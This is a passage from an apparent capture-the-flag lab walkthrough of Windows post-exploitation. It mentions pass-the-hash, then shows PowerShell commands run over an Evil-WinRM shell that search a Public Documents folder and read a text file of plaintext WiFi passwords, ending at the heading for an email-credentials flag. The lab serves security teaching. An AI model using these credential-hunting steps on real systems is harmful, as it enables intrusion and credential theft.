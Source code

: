 **🎯 FLAG 5 FOUND**: FLAG{B**********0} - PTH success flag

**Why Pass-the-Hash Works**: NTLM authentication only needs the hash, not the plaintext password. This is why protecting LSASS memory is critical!

---

## Phase 4: Common Workstation Files

### Understanding User Behavior

**Why These Files Exist**: Users create security holes through convenience:
- Saving passwords in text files
- Storing WiFi passwords
- Email credentials in documents
- Hidden files they think are secure

### FLAG 6: WiFi Password File

**Location**: Public Documents  
**Difficulty**: Easy

```powershell
# Search for WiFi-related files
*Evil-WinRM* PS C:\> Get-ChildItem -Path C:\Users\Public\Documents -Recurse -Filter "*wifi*" -ErrorAction SilentlyContinue

    Directory: C:\Users\Public\Documents

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         9/5/2025   10:15 AM            156 wifi.txt

*Evil-WinRM* PS C:\> Get-Content C:\Users\Public\Documents\wifi.txt
WiFi Network: CorpWiFi2025
Password: SecureWiFi2024!
Backup Network: GuestWiFi2024
Password: Guest123!
Flag: FLAG{P***********0}
```

**🎯 FLAG 6 FOUND**: FLAG{P**********0} - WiFi password file

**Real-World Context**: Users document WiFi passwords for:
- Helping colleagues connect
- Personal reference
- Guest network access
This creates credential exposure!

### FLAG 7: Email Credentials

**Location**: Passwords folder  
**Difficulty**: Easy
